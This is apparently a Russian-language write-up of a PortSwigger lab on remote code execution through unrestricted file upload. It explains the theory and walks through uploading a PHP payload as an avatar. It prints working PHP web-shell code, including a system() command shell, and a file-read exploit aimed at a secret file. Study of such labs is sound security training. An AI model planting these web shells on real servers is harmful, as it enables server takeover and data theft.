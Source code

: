 # Remote code execution via web shell upload

## Theory

<h3>Использование неограниченной загрузки файлов для развертывания веб-шелла</h3>

С точки зрения безопасности наихудший возможный сценарий — это когда веб-сайт позволяет загружать скрипты на стороне сервера, такие как файлы PHP, Java или Python, а также настроен на их выполнение в виде кода. Это упрощает создание собственной веб-оболочки на сервере.

Если вы можете успешно загрузить веб-оболочку, вы фактически имеете полный контроль над сервером. Это означает, что вы можете читать и записывать произвольные файлы, извлекать конфиденциальные данные и даже использовать сервер для направленных атак как на внутреннюю инфраструктуру, так и на другие серверы за пределами сети. Например, следующий однострочный PHP-код можно использовать для чтения произвольных файлов из файловой системы сервера:
```
<?php echo file_get_contents('/path/to/target/file'); ?>
```

После загрузки отправка запроса на этот вредоносный файл вернет содержимое целевого файла в ответ.

Более универсальная веб-оболочка может выглядеть так:
```
<?php echo system($_GET['command']); ?>
```

Этот сценарий позволяет вам передать произвольную системную команду через параметр запроса следующим образом:
```
GET /example/exploit.php?command=id HTTP/1.1
```

## Writeup

* Имеющиеся данные: 
    * Данные нашего аккаунта: wiener:peter

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/File_upload_vulnerabilities/Remote_code_execution_via_web_shell_upload/assets/1.png)

Логинимся c имеющимися данными. У нас есть возможность загрузки аватара пользователя. Загружаем эксплоит. Получаем сообщение об успешной загрузке файла.

Код эксплоита:
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/File_upload_vulnerabilities/Remote_code_execution_via_web_shell_upload/assets/2.png)

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/File_upload_vulnerabilities/Remote_code_execution_via_web_shell_upload/assets/3.png)

Обновляем страницу. Теперь мы можем найти наш запрос. Отправляем запрос и получаем содержимое файла.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/File_upload_vulnerabilities/Remote_code_execution_via_web_shell_upload/assets/4.png)

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/File_upload_vulnerabilities/Remote_code_execution_via_web_shell_upload/assets/5.png)

Подтверждаем отвер и получаем ответ от сервера.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/File_upload_vulnerabilities/Remote_code_execution_via_web_shell_upload/assets/6.png)

